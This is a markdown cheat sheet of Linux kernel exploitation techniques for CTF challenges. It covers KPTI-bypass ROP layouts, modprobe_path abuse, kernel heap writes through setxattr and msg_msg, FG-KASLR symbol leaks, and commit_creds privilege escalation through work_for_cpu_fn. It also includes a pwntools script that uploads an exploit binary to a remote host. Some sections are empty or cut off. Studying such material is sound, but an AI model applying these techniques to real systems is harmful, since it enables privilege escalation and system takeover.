

# Kernel pwn tricks & machanisms

## 1.Kernel Security Protection Mechanisms

### 1.1 Kernel ASLR


## 2.


## 2. Build a kernel for QEMU

​	There is a configuration called tinyconfig, which can build a tiny version of Linux kernel, use it like

```bash
make tinyconfig
```

​	Also, to make the kernel and debuging friendly there are some options we need to turn on


## 3.Bypass KPTI 

​	KPTI ( Kernel Page Table Isolation) is a kernel protection feature, which seperates the kernel-space page table and user space page table entirely.

​	When the kernel is running without KPTI, the procedure of ret2user is like retting to a stack with rop chain as follows

```c
    swapgs_ret    <-  esp
--------------
    iretq
--------------
 (target_rip)
--------------
   (user_cs)
--------------
 (user_rflags)
--------------
  (user_sp)
--------------
   (user_ss)
```

​	If the KPTI is enbled, ret2usr this way will resulting in a segment fault when accessing the user space code. To bypass this mechanism we choose to perform ret2usr by `swapgs_restore_regs_and_return_to_usermode`. It is a exported symbol in kernel and we can read its address from */proc/kallsyms*. The implementatino is like

```assembly
0x00    pop    %r15
        pop    %r14
        pop    %r13
        pop    %r12
        pop    %rbp
        pop    %rbx
        pop    %r11
        pop    %r10
        pop    %r9
        pop    %r8
        pop    %rax
        pop    %rcx
        pop    %rdx
        pop    %rsi
0x16    mov    %rsp,%rdi		<== ret to this place
        mov    %gs:0x5004,%rsp
        pushq  0x30(%rdi)
        .....
```

to bypass KPTI we set the ROP chain as follows

```c
    swapgs_restore_regs_and_return_to_usermode+0x16    <-  esp
-------------------------------------------------
    				 0
-------------------------------------------------
            		 0
-------------------------------------------------
 				(target_rip)
-------------------------------------------------
   			      (user_cs)
-------------------------------------------------
                (user_rflags)
-------------------------------------------------
                 (user_sp)
-------------------------------------------------
                 (user_ss)
```


## 4. find *modprobe_path*

​	When the compile option `CONFIG_KALLSYMS_ALL` is turned off, which was defaut, the symble *modprob_path* is not exported to */proc/kallsyms*, making it impossible to get it by directly reading the file. We can get its address by setting a break to *call_usermodehelper_setup*.

​	The symbol *call_usermodehelper_setup* is exported to */proc/kallsyms* by default, so we can get it in most cases by reading */proc/kallsyms*. The implementation in kernel is like

```c
static int call_modprobe(char *module_name, int wait)
{
    .....
    info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL, NULL, free_modprobe_argv, NULL);
    .....
}
```

after we setting the break point we can trigger the execution like

```bash
echo -ne "\xff\xff\xff\xff\xff" > /tmp/dummy
chmod +x /tmp/dummy
/tmp/dummy
```

When the execution hit the break point the address of *modprobe_path* will be at `RDI` as the first argument of the function.

​	Refer to 

1. https://github.com/smallkirby/kernelpwn/blob/master/technique/modprobe_path.md
2. https://github.com/smallkirby/kernelpwn/blob/master/important_config/KALLSYMS_ALL.md


## 5. disable overwriting to *modprobe_path*

​	The kernel compile option `CONFIG_STATIC_USERMODEHELPER` can be tunned on to set *modprobe_path* as a static string, making it unable to be overwirten. The option is off by default however.


## 6. write kernel heap chunk with *setxattr*

​	The implementation of *setxattr* is under *fs/xattr.c* as follows

```c
static long
setxattr(struct user_namespace *mnt_userns, struct dentry *d,
	 const char __user *name, const void __user *value, size_t size,
	 int flags)
{
	.....

	if (size) {
		if (size > XATTR_SIZE_MAX)
			return -E2BIG;
		kvalue = kvmalloc(size, GFP_KERNEL);
		if (!kvalue)
			return -ENOMEM;
		if (copy_from_user(kvalue, value, size)) {
		.....
out:
	kvfree(kvalue);

	return error;
}
```

​	The function *setxattr* allocates a chunk in kernel heap according to the parameter *size* and copy user space data at **value* to it. The two parameters are fully under user's control, allowing us to allocate an arbitrary size chunk in kernel heap then write arbitrary data to it. This can be useful if we cause a double free in kernel heap and place some struct(tty_struct, cred, all kinds of vtable,...) in the chunk. We hope to get the chunk again and write data to it to overwrite some value inside the struct.

​	*setxattr* fullfills our demand. Let's say we have put a *seq_operations* struct in the double-freed chunk and we want to overwrite a function pointers in the struct. We can invoke

```c
setxattr("/dummy_file", "dummy", start_cp_addr, 0x20, XATTR_CREATE);
```

​	The *setxattr* will allocate a `0x20` chunk from the kernel heap and we can hope the chunk is the double-freed one which is now a *seq_operations* struct. Then data at *start_cp_addr* will be copied to the kernel heap chunk, overwriting the *seq_operation*.

​	The data we want to copy to the kernel chunk should have a layout like


this cause the kernel to stop execute when the copy reaches the uffd-registerd page, so the chunk allocated by *setxattr* will not be immediately freed. And if we set the handler to the uffd to a simply *hang()* the chunk will never be freed.


## 7. bypass FG-KASLR

​	KASLR allows the kernel to be loaded at a random address, while funtion and symbols in the kernel still have a fixed offset from the load base address of the kernel

​	**Function Granular ASLR**, FG-KASLR, allows each kernel funtion to be loaded at loaded at random address during the kernel boot, which means, the kernel symbols are randomized on their own and their offsets from the kernel load base address are no longer fixed.

​	Some memory regions are not affected by FG-KASLR, which means they still have a fixed offset from the load base address during two boots. To by pass FG-KASLR, we make use of these regions.

1. funtion from `_text` to `__x86_retpoline_r15`, which is `_text+0x400dc6` (in the case of kernel 5.9)
2. KPTI trampoline `swapgs_restore_regs_and_return_to_usermode()`
3. kernel symbol table `ksymtab`

​	We may find some gadgets in the region from `_text` to `_text+0x400dc6`. Generally we may look for gadgets like

```assembly
pop rax; ret
mov eax, qword ptr [rax + 0x10]; ret;
```

​	These two gadgets allows us to read arbitrary memory by setting the value of `rax`. We will read the `symtab` using the two gadgets to leak the load address of any kernel exported symbols.

​	The `symtab` stores information of each exported symbol in the form of *struct kernel_symbol*, which is defined in *include/linux/export.h*. The definition is 

```c
struct kernel_symbol {
	int value_offset;
	int name_offset;
	int namespace_offset;
};
```

or

```c
struct kernel_symbol {
	unsigned long value;
	const char *name;
	const char *namespace;
};
```

​	For the formmer one, the field *value_offset* stores the offset from the address of this kernel symbol table entry to the address of this symbol. 

​	Here is an example.



​	*commit_creds* is loaded at 0xffffffff8f414ea0.


And the entry of this symbol is loaded at 0xffffffff8fd87d90. Lets check what is store inside this entry


The *value_offset* equals 0xff68d110. A simple math

```
0xffffffff8fd87d90  +  (int)0xff68d110 = 0xffffffff8f414ea0
  entry's address         value_offset       symbol's address
```


​	This reveals that we are able to get the load address of a symbol by reading its `symtab` entry. Using the gadgets metioned above,  we store the *value_offset* to register `eax`. This is often achived by rop, thus we may return to the user land using the *swapgs* retpoline, then read `eax` immediately

```c
__asm__(
        "mov %0, rax\n"
        : "=r"(offset_value)
        :
        :"memory"
    );
```


## 8. write kernel heap chunk with *msg_msg*

​	struct *msg_msg* is a System V IPC mechanism that allow processes communicate messages with each other. It can be used to write data to kernel heap chunks allocated by *kmalloc()*, which will be useful to spray the kernel heap or write double-freed heap chunks.

​	By invoking

```c
int qid = msgget(IPC_PRIVATE, IPC_CREAT);
struct{
    long mtype;
    char mtext[MSGLEN];
}msgbuf
    
msgsnd(qid, &msgbuf, MSGLEN, 0)
```

the kernel will allocate a heap chunk of size

```c
sizeof(struct msg_msg) + MSGLEN
```

then write a `struct msg_msg` to it, followed by the user data `mtext[]`. The user data is fully user controllable, allowing us to write arbitrary data to the heap chunk.

​	The struct `msg_msg` is defined in *include/linux/msg.h* as

```c
struct msg_msg {
	struct list_head m_list;
	long m_type;
	size_t m_ts;		/* message text size */
	struct msg_msgseg *next;
	void *security;
	/* the actual message follows immediately */
};
```

an invoke to *msgsnd* is forwarded to *do_msgsnd* defind in *ipc/msg.c* as

```c
static long do_msgsnd(int msqid, long mtype, void __user *mtext,
		size_t msgsz, int msgflg)
{
	struct msg_queue *msq;
	struct msg_msg *msg;
	.....

	msg = load_msg(mtext, msgsz);
	.....
}
```

 *load_msg()* invokes *kmalloc()* to get a heap chunk and copy user data to it. It is defined in *ipc/msgutil.c* as

```c
struct msg_msg *load_msg(const void __user *src, size_t len)
{
	.....
        
	msg = alloc_msg(len);
    
	....
        
	if (copy_from_user(msg + 1, src, alen))
		goto out_err;
    .....
}
```

*alloc_msg()* is also defined in *ipc/msgutil.c* as

```c
static struct msg_msg *alloc_msg(size_t len)
{
	.....
        
	msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
    
	.....
        
	while (len > 0) {
        // routine if the message len is larger than a page
		.....
	}
.....
}
```


## 9. bind a thread to specific cpu

​	When we have caused a double-free or UAF chunk inside the kernel and we want to spray the kernel to get it back, it is useful to use `sched_setaffinity()` to bind the current thread to a specific CPU to greatly increase the possibility.

​	Each CPU has its own slab cache, it can also be taken as each CPU has seperate heap. When we caused a UAF chunk inside one heap, the thread may be scheduled to another CPU when we spray the kernel. If we are lucky enough, we may anyhow get the UAF chunk. However, chances are that the chunk may get allocated by some other threads before our threads get it.

​	So binding our thread to a specific CPU may significantly increase the probability to get the same chunk. The binding is done by 

```c
unsigned char __cpu_mask = 1;
sched_setaffinity(0, 1, (cpu_set_t*)&__cpu_mask);
```


## 10. upload exploit to remote in CTF games

​	Use the following python script

```python
from pwn import *
import base64
from tqdm import tqdm

HOST = "1.13.187.152"
PORT =  9999
USER = "pwn"
PW = "pwn"
BIN = "./exp"

def exec_cmd(sh, cmd):
    sh.sendline(cmd)
    sh.recvuntil("$ ")

if __name__ == "__main__":
    sh = remote(HOST, PORT)
    sleep(3)
    sh.sendline("ls")
    with open(BIN, "rb") as f:
        data = f.read()
    encoded = base64.b64encode(data).decode("UTF-8")
    sh.recvuntil("$ ")

    once_size = 0x200
    for i in tqdm(range(0, len(encoded), once_size)):
        exec_cmd(sh, "echo \"%s\" >> /tmp/benc" % (encoded[i:i+once_size]))

    exec_cmd(sh, "cat /tmp/benc | base64 -d > /tmp/exp;chmod +x /tmp/exp")
    context.log_level='debug'
    sh.interactive()
```


​	Basically, the script first read the exploit binary as bytes. Then encode it to base64 stream, and transmit the base64 codes to remote host using `echo`. Then decode the base64 codes using `base64 -d` in remote host to get the binary executable back.

​	The transmitting usually takes a lot of time and the remote usually have a timeout, so we better make the executable as small as possible. This can be achieved using `musl-gcc`. It is a wrapper to gcc to make minimal executables.

```shell
musl-gcc -masm=intel -lpthread -O3 -static -o exp.musl exp.c kernelpwn.c
```

​	The default library of musl-gcc lacks support for `userfaultfd` syscall. Make a new header file in `/usr/include/x86_64-linux-musl/linux/userfaultfd.h` and copy the original header file `/usr/include/linux/userfaultfd.h` to it. Make the following changes to make it work

```c
//#include <linux/types.h>
typedef unsigned long long __u64;
typedef signed long long __s64;
typedef char __u8;
typedef unsigned short __u16;
typedef unsigned int __u32;
```


## 11. work_for_cpu_fn

​	The function have a form

```c
static void work_for_cpu_fn(size_t * args)
{
    args[6] = ((size_t (*) (size_t)) (args[4](args[5]));
}
```

It invokes `args[4]` and pass `args[5]` as argument, and store the return value to `args[6]`. This can be useful when we control a tty struct.

​	This function is exported to *kallsyms* in systems support multi cores. We overwrite the `ioctl` to `work_for_cpu_fn`, when we invoke `ioctl` of the tty struct, the `args` will be the address of the tty struct. And we can place function pointers at `tty_strut[4]` and argument at `tty_struct[5]`. The return value will be written to `tty_struct[6]`.

​	In the case we want to perform `commit_creds(prepare_kernel_cred(0))`, we can first set `tty_struct[4]` to address of `prepare_kernel_cred()` and set `tty_struct[5]` to 0. After invoking `ioctl`, the address of root cred struct will be written to `tty_struct[6]`, and need to read it (by exploiting vulnerability). Then we set `tty_struct[4]` to address of `commit_creds()`, and palce the address of the root cred struct at `tty_struct[5]`. Then invoke `ioctl` again.

​	During the two invokes nothing else in the kernel is touched so we can always expect the kernel `ioctl` returned cleanly.

​	Generally, this technique needs the following preconditions

> 1. able to control tty_struct: overwrite tty_strut.tty_ops, and fake the tty_ops, at least pointer of ioctl
> 2. able to write tty_struct[4] and tty_struct[5]
> 3. able to read tty_struct[6]

